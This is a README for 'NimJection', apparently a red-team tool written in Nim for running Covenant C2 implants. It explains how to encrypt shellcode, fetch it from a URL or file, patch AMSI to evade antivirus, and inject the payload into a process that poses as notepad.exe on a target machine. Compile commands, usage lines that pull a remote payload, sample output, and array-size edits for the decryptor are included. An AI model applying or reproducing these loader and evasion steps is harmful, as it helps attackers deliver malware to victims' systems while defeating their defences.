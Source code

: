 # NimJection
My experiments with Nim for covenant implant operations. Highly recommend looking at Marcello Salvati’s https://github.com/byt3bl33d3r repo which I used massively for this project.


## PrepPayload
Used for grabbing b64 shellcode, either from a file or URL, converting it to correct format and encrypting using specified encryption key. Creates encrypt.txt file containing encrypted shellcode for use with NimJection.

### Compile Instructions:
```
nim c -d:ssl PrepPayload.nim
```
> Experienced SSL problems if cross compiling in Windows from Unix so would recommend compiling on platform you’re going to use it on.

### Usage
```
Flags:
--url
--file
--enkey encryption key, DEAFULT: Nimjection

./PrepPayload  --url:http://127.0.0.1/shellcode Get Remote Payload
./PrepPayload --file:"Local Payload File"       Get Local Payload
```

## NimJection
What you drop onto target. Decrypts ‘encrypt.txt’, either locally or via grabbing it from URL, created by PrepPayload, does some AMSI patching and then injects and executes resulting shellcode pretending to be notepad.exe.

### Compile Instructions:
```
nim c -d:ssl NimJection.nim
```
> Recommend compiling on windows due to SSL issues – but if grabbing file locally/over http ‘should’ work via cross compile

### Usage
```
--url
--file
--enkey encryption key

Usage:
./Nimjection.exe  --url:http://127.0.0.1/shellcode      Get Remote Payload
./Nimjection.exe --file:"Local Payload File"    Get Local Payload
```



There is a slight issue with the code in the fact that byte array sizes need to be declared at compile. To aid in usage, PrePayload will display the byte array size in its output:

```
./PrepPayload --url:https://127.0.0.1/GruntHTTP.bin.b64 --enkey:test

Grabbing payload from: https://127.0.0.1/GruntHTTP.bin.b64
[*] Using httpclient
Encrypting Payload...
IV: 03A5EF054B596D12055585BC99C8160D
ENKEY: test
ENCRYPTED PAYLOAD: ./encrypt.txt
PAYLOAD SIZE = 43132 Check decrypt nim dectext array size matches
```
Before compiling Nimjector for use on a target, decryt.nim needs to be checked/changed to have the right return array size and dextext array size.

```
proc decrypt*(envkey = "", payload = ""): array[43132,byte] =

dectext: array[43132,byte]

```


